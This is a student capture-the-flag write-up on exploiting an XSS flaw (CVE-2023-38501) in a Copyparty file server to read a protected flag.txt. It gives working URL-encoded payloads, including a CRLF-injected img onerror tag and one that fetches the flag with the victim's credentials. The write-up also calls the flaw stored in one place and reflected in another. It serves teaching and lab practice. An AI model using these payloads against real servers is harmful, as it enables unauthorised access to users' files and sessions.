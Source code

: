 ## CTF Week #7 (XSS)


##### Find the file related to the flag on the server. Why can't you directly access the secret flag?

When trying to access the flag.txt file, it shows the following error:

![Image 1](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/CTF7_img1.png)

We cannot directly access the flag because the server is configured to block unauthorized or direct requests to the flag.txt file. It enforces restrictions based on context, such as validating headers, cookies, or the origin of the request. This means the file is protected against simple HTTP GET requests and can only be accessed through interactions that occur within the browser, such as JavaScript execution in the context of an authenticated or authorized session.

To bypass this restriction, an XSS (Cross-Site Scripting) attack can be used. This type of attack exploits vulnerabilities in the web application that allow the injection of malicious JavaScript code. When executed in the context of a user's session, this code can interact with the application as if it were part of the trusted session.

In this scenario, an XSS attack enables the execution of JavaScript to request and retrieve the flag from the server. Since the flag is only accessible via JavaScript running in the browser and direct HTTP requests are blocked, XSS provides a way to exploit client-side vulnerabilities to access restricted resources like flag.txt.


##### This service is popular; it might even have known vulnerabilities. Could those help you access the flag?

As the site is a Copyparty, we did some research on vulnerabilities commonly associated with this type of website. We found that the vulnerability ```CVE-2023-38501``` was particularly relevant. This vulnerability is related to a Stored Cross-Site Scripting (XSS) flaw, which allows attackers to execute malicious JavaScript code by tricking users into accessing a specially crafted link. After searching for an exploit of that vulnerability we decided to add ```/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E``` to the website's link: ```https://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E```.

![Image 2](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/CTF7_img2.png)

This way, we can see that this website is vulnerable, and we can use this exploit to get to the flag.

![Image 3](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/CTF7_img3.png)

After getting the fetch, we encoded the previous url of the attack with the fetch:
```https://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3D%22fetch%28%27https%3A%2F%2Fctf-fsi.fe.up.pt%3A5007%2Fflag.txt%27%2C%7Bcache%3A%27default%27%2Ccredentials%3A%27include%27%2Cmethod%3A%27GET%27%2Cmode%3A%27cors%27%2Credirect%3A%27follow%27%2Creferrer%3A%27https%3A%2F%2Fctf-fsi.fe.up.pt%3A5007%2F%27%2CreferrerPolicy%3A%27strict-origin-when-cross-origin%27%7D%29.then%28response%3D%3Eresponse.text%28%29%29.then%28data%3D%3Econsole.log%28data%29%29.catch%28err%3D%3Econsole.error%28err%29%29%22%3E```

We obtained the flag successfuly!! 

![Image 4](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/CTF7_img4.png)

##### What type of XSS vulnerability (Reflected, Stored, or DOM) allowed you to access the flag?

This vulnerability occurs when user-supplied input, such as a query parameter in a URL, is immediately reflected back by the server into the HTTP response without proper validation or sanitization. In this case, the server reflected the injected payload directly into the response, where it was executed in the browser.

By crafting a malicious URL with a payload (```/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E```), we exploited this flaw to execute JavaScript in the browser. This allowed access to the flag.txt file by making a request within the context of the browser session, which had the required permissions to access the flag.